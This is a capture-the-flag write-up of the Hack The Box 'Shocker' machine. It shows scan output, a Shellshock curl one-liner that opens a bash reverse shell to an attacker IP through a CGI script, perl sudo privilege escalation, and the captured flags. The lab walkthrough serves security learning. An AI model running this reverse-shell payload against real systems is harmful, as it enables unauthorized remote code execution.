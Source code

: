 ```yaml
---
layout: post
title:  "HTB Shocker Linux"
description : Enumeration reveals the shocking exploit!.Root will shine as a pearl!
tags: HTB, perl, shocker
---
```


# Recon
Nmap scan
```ruby
CVEs_10.10.10.56.nmap 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.020s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.18:
| CVE-2017-7679 7.5 https://vulners.com/cve/CVE-2017-7679
| CVE-2017-7668 7.5 https://vulners.com/cve/CVE-2017-7668
| CVE-2017-3169 7.5 https://vulners.com/cve/CVE-2017-3169
| CVE-2017-3167 7.5 https://vulners.com/cve/CVE-2017-3167
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Dirbuster scan
```ruby
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /cgi-bin/ - 403
Dir found: / - 200
Dir found: /icons/ - 403
```
Gobuster scan
```ruby
gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://
10.10.10.56:80/cgi-bin -s 200,204,301,302,307,403 -x sh
/user.sh (Status: 200)
```
```ruby
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.56
+ Target Hostname:    10.10.10.56
+ Target Port:        80
+ Start Time:         2019-11-04 16:30:34 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8673 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2019-11-04 16:34:28 (GMT-5) (234 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

# Exploitation Shellshock
The target machine is vulnerable to RCI Shellshock
After a little bit of research I came accross with a nice and handy one-liner reverse shell to
get user.
```ruby
curl -H "User-Agent:() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.25/5555 0>&1" http://
10.10.10.56/cgi-bin/user.sh
```
![](https://lh3.googleusercontent.com/ik9ZmyziiHaJQlxfDZGn9lLlvJzFAlovugfope5AwtAnjxomtRIdr3G0t5Bvllf7F7Af3RR4VzJYFcjZFMSjt2bj6e06dhxq0DH5hjc7k-ebnc02igvtVhpEKOmlE5DbgzL9-xNMpft3UhmFg5FtWmIVY-EzyHhPWtI_4Fzq4ISTd4Lyen3dE3OSDDkYWspQbBHmFUjcbTrMrKrgGIsIQ1YonNYVFFUN8f3g3LjMBYRArmHzp0wkyHuWIt-VvLTWVqgFyH1GVtUN3F1vROrBuP8Amh1Vtx4MNd2-u5BPjeiJv_7_zl633_sotZAk6WpDpgetuSmQ52Lr0tXHxBoxcDyUb0i5Oow37bptWc_TCXU9F6FDMZGMCiQYS7HluhX8_r5bGbuxrbQx5nBqPuOkhjsQriV44aZ2sAPcpHBSEm2z2zSwie3dx0ELugmjwC7FXP157mFxGaYlQDN3_Rfpt3fkCSRyshipW9tIas0FR7g40a-ZoyOoQtai8E0rfuHR52b7k05VuLv4dg_PNBiYY_FdYkfDHMHRxw2OZCFvYJZBMo0D0MwJWAzQsKZHMd7eVaE8D3VHqJKyB673TiMOWJuJCRLxlg69pkEp4Ub0NrK8TIFEvB5HwRqmbgcGMr9IaeaoEMIzsQl4nnqe_K6T4HHQAPT8xENk6duXSdZxwwrgzJ51JTb6opA=w703-h195-no)

# Privilege Escalation
After running LinuxEnum script we find out that we can **sudo** perl files
```ruby
[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/
bin\:/sbin\:/bin\:/snap/bin
User shelly may run the following commands on Shocker:
 (root) NOPASSWD: /usr/bin/perl
[+] Possible sudo pwnage!
/usr/bin/perl
```
![](https://lh3.googleusercontent.com/pqAM_KlDJqm8bgU7z8Pt73Xrp4qkQteltjrVt2O7v-7I5vvjf5oJDhLT-PKasb4kvHMoRFRsG4p_sL9QTrfJSFGjDn2FJhNhUsxsKWLkVGtl5GR-F4Lzz3U3xBs09r0lXNqFhnNRsGyNrs-UQ6iLeIRObO_uCCzgTsdcODzUgPna1XgvXDq6cdJKFvt-cEMfOTXBwrDtaQYt_sicxhHMFTO9ONmgBvxzPq2S4DZCllb9hiZVmF4FrxWGvIxoduL589mnyHYsCo9dVe5LqaC9tv5eZGsJIQVZgGpBeOE0kGOn5PHqrN4LELyr3r1PI6eIXjvBu4ATpwtmZt2Vve9Op3dw0M4UIF5WBy5pSnQ4bcEAacrH10bYpCIGx8gJmai6AUeqsVP8mcnG8p5cPkQ8QNiN6491urNRchk8yGkxzHjwSrL173ph8LIZg7BIq9DsyUnEU7lYaYe9oYsIa4uyE9IN_AM6dthFQBi2qZ97xGQpu4CXyP7uZWwvRBgOOYBUsgNFleLb-Ip2i_nLVDEIme_psMe377PcLliSGYOf3AlEzVrozvXz0UdxhtJqy04om9UTSTPgHEifdd5UM7p8JITjlFdTBFYb7uPBG7Rx3ZqVboqiiUhTqW5oieswrrilppFR3aSe8M06QM5hzmRBR5iv4IgfHDTgs1ErwZDDpqNai5kJ1EKnLpY=w751-h222-no)

We upload a perl reverse shell and set up nectat to get root!
![](https://lh3.googleusercontent.com/aMsxhqanjduBrkVsZrjxG_0zsePClu_pk2Yobd7mxPA_ZR9O3xymsAvPk0Efmr2ORqDdAlKo9YLcWtWrvOy-CJ4LaI4UDFe_oQswKcIlwzEo2nZ3XaPS9fa0fwm9vBzFQg0nKEHFcJpM5ai-aTDLn7ZFRWSCIEPtI_Nu561GTb2G5kPomyLK0kkWGIk0uWGXGb0QisUv8mYvTaulEo51XDp1vn5wEq8osUOryOiXO8KS0aikRBSsDsin7LZywffZWwgD3LHRgha5ANGO4K5MidZDhFICor67aMVaxrNyFYcVT_B92VJIOQDWDOdHV3lRhkO3s79swVAbbbGEunt8UL6_52GpSXqIL6wPMnz60gjN4xF6CKZw8CumAavdiuALvp_9NEeswQjtXeA0BOStXZNtKyDBipTScX6uMy5lsklfZxFl52I-jhb1EOla-ZZU9uHd1fz89cYIa0UHLOUx5XjiLBPgdRBEKWchmuCq6JvD5C2OnCx-l0YIh0bZqZJ2IaVoEsVaZlcANOgM51HSnbNLHRWp5Y-luZYjHImNR_j4LpBKEh2aF_xIB1bHpwJRh4_VS0upR-NbqXAm_Ef30M5LHTJfzEjgv3212tlotQZc-hy5aDLk9FHzUTXkeYsFCslB10f-5L02q3eavmREu5Umun4fpfFgmszONki6S6q-SZuUJElus6k=w611-h451-no)

![](https://lh3.googleusercontent.com/a3UnJ2fxz4uqeetF8rGEcviQ6010kl8eJ6F_tGsM4Hf-Ob3b7Hf-RJ4awyj7MkfmOiHLeQyLDK7YUL_oLEh7ufghR_LF2bEl-ZXOz0KK9YIlKyiPjBiLaZQi8-1hugMthr05VPaP22SmE1WlspEQF7yleluaf1B0JI4oKQ1xa9Dzr_oFiVTBt0-DSFyzFKzVIJRFMQ1dvFdbVeWit59MtlzZY7GXBQVT311yR-zUmIRcFNvJConvV0jDggqdcpfR5d2sU-L3v42t6lN7GuZVof3XD6WDyqqEEnhZ1p-sKXJOccTFappem0U6hi72ZEucFdzEHZmBcaDuOMtxVHsDqZy91dFi639dxRF-JSvPW1it7iOcy7TYNKkprarmW9--Fypcar90sQJsmdfylb0BJVgTr2ru3-i7xK92a9o4zzc7psvxEmqou8mPPOFWKdiYp6tCD7SPCyWZVv9OlkUSFh8tu4jmxyfc04KJ6Fr4DcJ_5wWf23toJq5P4W5DeLBFnEi8L1zuxwlobaGU-vIJ8j9frfKlaK29xqdZAhAeF5zujSOaYV9ixR601DQKvMroVUmTjLbiLkyCYq_a5PfbcApcJ0-NsrKA2Hxuse7enIJPVW9GhEUqGLG1IAGJqJIN5SJLXU0zHzH87W1GEC-ngEH191AolR_zaf0t5EnAV-pinbvqxk-sK1Q=w809-h277-no)

```ruby
ROOT "52c2715605d70c7619030560dc1ca467"
USER "2ec24e11320026d1e70ff3e16695b233"
```
